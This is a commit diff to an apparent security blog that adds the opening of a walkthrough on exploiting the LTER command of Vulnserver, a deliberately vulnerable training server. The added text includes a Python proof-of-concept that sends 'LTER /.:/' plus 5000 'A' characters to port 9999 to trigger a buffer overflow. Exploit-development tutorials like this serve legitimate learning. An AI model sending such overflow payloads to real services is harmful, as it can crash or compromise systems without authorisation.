

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/020-03-09-Vulnserver-LTER.md, in a window 1280 px wide. Shown: the top 878 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 020-03-09-Vulnserver-LTER.md

````diff
--- a/_posts/posts/020-03-09-Vulnserver-LTER.md
+++ b/_posts/posts/020-03-09-Vulnserver-LTER.md
@@ -9,4 +9,26 @@
 
 # Introduction
 
-### Last time we i blogged, we tackled aligning registers within windows exploit development. Today we will be seeing an example on the [vulnerable server by stephen bradshaw](https://github.com/stephenbradshaw/vulnserver/)
+### Last time we i blogged, we tackled aligning registers within windows exploit development. Today we will be seeing an example on the [vulnerable server by stephen bradshaw](https://github.com/stephenbradshaw/vulnserver/), in which, a restricted set of characters may be found. Furthermore, due to lack of executable space when leading the flow, it will be required to use additional techniques to successfully exploit the server.
+
+### The basics once again
+
+##### As with any other vulnerable applicaiton to a buffer overflow, we need to test it first in order to exploit it, as in the [previous](https://whitecr0wz.github.io/posts/Exploiting-Stack-Overflows-On-Windows/) walkthrough in vulnserver, the parameter was vulnerable to the use of /.:/ after it being called, let's test if this works as well with LTER.
+
+PoC code:
+
+```terminal
+import socket, sys, struct
+
+buffer = "LTER /.:/" + "A" * 5000
+
+host = sys.argv[1]
+
+s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
+
+s.connect((host, 9999))
+
+s.send(buffer)
+
+s.close()
+```
````
